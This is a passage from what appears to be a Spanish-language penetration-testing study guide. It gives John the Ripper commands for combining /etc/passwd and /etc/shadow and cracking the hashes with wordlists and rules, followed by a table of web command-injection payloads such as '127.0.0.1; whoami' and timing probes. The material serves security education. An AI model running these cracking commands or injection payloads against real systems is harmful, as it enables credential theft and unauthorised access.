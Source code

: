 ### 3.3 Cracking de Hashes con John the Ripper

#### Extracción y Preparación de Hashes

| Técnica                    | Comando                                          | Propósito Académico                              |
|----------------------------|--------------------------------------------------|--------------------------------------------------|
| Preparación sistema Linux  | `unshadow /etc/passwd /etc/shadow > hashes.txt` | Combinación de archivos para análisis           |
| Identificación de formato  | `john --list=formats | grep -i [tipo]`          | Identificar algoritmo criptográfico correcto    |

#### Técnicas de Cracking Avanzadas

| Técnica                    | Comando                                          | Propósito Académico                              |
|----------------------------|--------------------------------------------------|--------------------------------------------------|
| Cracking básico            | `john hashes.txt`                                | Ataque usando patrones predefinidos             |
| Ataque con diccionario     | `john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt` | Ataque basado en passwords comunes |
| Cracking con reglas        | `john --rules --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt` | Aplicación de mutaciones algorítmicas |
| Mostrar resultados         | `john --show hashes.txt`                         | Visualización de credenciales comprometidas     |
| Formato específico         | `john --format=raw-md5 --wordlist=rockyou.txt hash.txt` | Ataques optimizados por algoritmo          |

#### Tabla de Flags - John the Ripper

| Parámetro      | Función Académica                              | Fundamento Criptográfico                         |
|----------------|------------------------------------------------|---------------------------------------------------|
| `--wordlist`   | Dictionary Attack                              | Ataque basado en passwords comunes               |
| `--rules`      | Rule-based Attack                              | Mutaciones algorítmicas de wordlist              |
| `--format`     | Hash Format                                    | Especificar algoritmo criptográfico              |
| `--show`       | Display Results                                | Mostrar passwords crackeados                     |
| `--incremental`| Brute Force                                    | Generación exhaustiva de combinaciones           |

### 3.4 Payloads de Inyección Manual

#### Inyección de Comandos en Aplicaciones Web

| Tipo de Payload              | Ejemplo                                          | Propósito Académico                              |
|------------------------------|--------------------------------------------------|--------------------------------------------------|
| Inyección básica             | `127.0.0.1; whoami`                             | Verificar contexto de usuario                   |
| Inyección con información    | `127.0.0.1; uname -a`                           | Obtener información del sistema                  |
| Inyección condicional        | `127.0.0.1 && id`                               | Ejecutar si comando anterior tiene éxito        |
| Inyección con pipe           | `127.0.0.1 | whoami`                            | Redirección de output                            |
| Timing injection             | `127.0.0.1; sleep 5 && echo "test"`             | Detectar inyección sin output visible           |
| Timing con ping              | `127.0.0.1; ping -c 5 127.0.0.1`               | Alternativa para blind injection                |
| PHP específico               | `127.0.0.1; php -r 'echo "Max execution time: " . ini_get("max_execution_time");'` | Ejecutar código PHP inline |
